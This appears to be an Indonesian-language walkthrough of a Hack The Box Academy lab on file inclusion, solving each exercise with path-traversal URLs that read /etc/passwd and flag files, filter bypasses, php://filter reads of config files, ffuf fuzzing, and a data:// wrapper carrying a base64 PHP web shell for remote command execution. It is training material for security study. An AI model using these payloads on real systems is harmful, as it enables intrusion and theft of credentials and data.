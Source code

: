 # File Inclusion
- Link modul: https://academy.hackthebox.com/module/details/23

## Local File Inclusion (LFI)
- Jalankan web target terlebih dahulu

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%202.JPG)

- **Question:** Using the file inclusion find the name of a user on the system that starts with "b".
- Vunerability berada di URL `http://ip:port/index.php?language=en.php`

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%203.JPG)

- Selanjutnya kita ganti nilai parameter `language` dengan payload file inclusion untuk membaca file `/etc/passwd`
- Akses URL berikut di browser
```sh
http://ip:port/index.php?language=../../../../etc/passwd
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%204.JPG)

- Ditemukan nama user barry pada file `/etc/passwd`

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%205.JPG)

- **Answer**
```sh
barry
```

- **Question:** Submit the contents of the flag.txt file located in the /usr/share/flags directory.
- Akses URL berikut di browser
```sh
http://ip:port/index.php?language=../../../../usr/share/flags/flag.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%206.JPG)

- **Answer**
```sh
HTB{***}
```

## Basic Bypasses
- Jalankan web target terlebih dahulu

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%207.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%208.JPG)

- **Question:** The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt
- Akses URL berikut di browser untuk mengecek vulnerability file inclusion pada web target
```sh
http://ip:port/index.php?language=languages//....//....//....//....//etc/passwd
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%209.JPG)

- Akses URL berikut di browser untuk membaca flag
```sh
http://ip:port/index.php?language=languages//....//....//....//....//flag.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2010.JPG)

- **Answer**
```sh
HTB{***}
```

## PHP Filters
- Jalankan web target terlebih dahulu

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2011.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2012.JPG)

- **Question:**  Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer
- Pada task ini kita akan menggunakan wordlists dari seclists. Wordlists ini secara default belum tersedia di kali linux, jadi anda perlu menginstalasi terlebih dahulu dengan perintah sebagai berikut
```sh
sudo apt install seclists
```
- Jalankan tool `ffuf` untuk menemukan halaman yang mengandung script PHP
```sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://94.237.59.180:45986/FUZZ -e .php -c -ic
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2013.JPG)

- Ditemukan script `configure.php` pada hasil fuzzing diatas

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2014.JPG)

- Akses URL sebagai berikut pada browser untuk membuka isi file tersebut
```sh
http://ip:port/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2015.JPG)

- Terdapat code base64 pada halaman diatas, tekan `Ctrl+U` agar kita bisa mengcopy code base64 tersebut secara full

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2016.JPG)

- Decode code base64 diatas lewat terminal
```sh
echo 'code base64' | base64 -d
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2017.JPG)

- **Answer**
```sh
HTB{***}
```

## PHP Wrappers
- Jalankan web target terlebih dahulu

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2018.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2019.JPG)

- **Question:** Try to gain RCE using one of the PHP wrappers and read the flag at /
- Buka URL berikut ini, untuk membuka isi file `php.ini`
```sh
http://ip:port/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2020.JPG)

- Tekan `Ctrl+U` untuk membuka kode sumber halaman lalu copy seluruh isi code base64

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2021.JPG)

- Tempel pada mousepad dan simpan dengan nama file `php-ini`

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2022.JPG)

- Decode melalui terminal dan cari konfigurasi `allow_url_include`
```sh
cat php-ini | base64 -d | grep 'allow_url_include'
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2023.JPG)

- Karena `allow_url_include = On` sekarang kita bisa buat RCE. Decode source code RCE PHP menggunakan base64
```sh
echo '<?php system($_GET["cmd"]); ?>' | base64
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2024.JPG)

- Copy base64 diatas lalu encode ke URL di https://www.urlencoder.org/

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2025.JPG)

- Masukkan hasil encode diatas ke dalam URL jalankan melalui web target
```sh
http://ip:port/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2026.JPG)

- Jika kita masukkan nilai parameter `cmd=ls /` maka disana terdapat file txt yang kemungkinan berisi flag

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2027.JPG)

- Sekarang coba buka isi file tersebut menggunakan perintah `cat /nama_file` melalui URL
```sh
http://ip:port/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat%20/nama_file
```

![alt text](https://github.com/rahardian-dwi-saputra/htb-academy-walkthrough/blob/main/File%20Inclusion/assets/fi%2028.JPG)

- **Answer**
```sh
HTB{***}
```
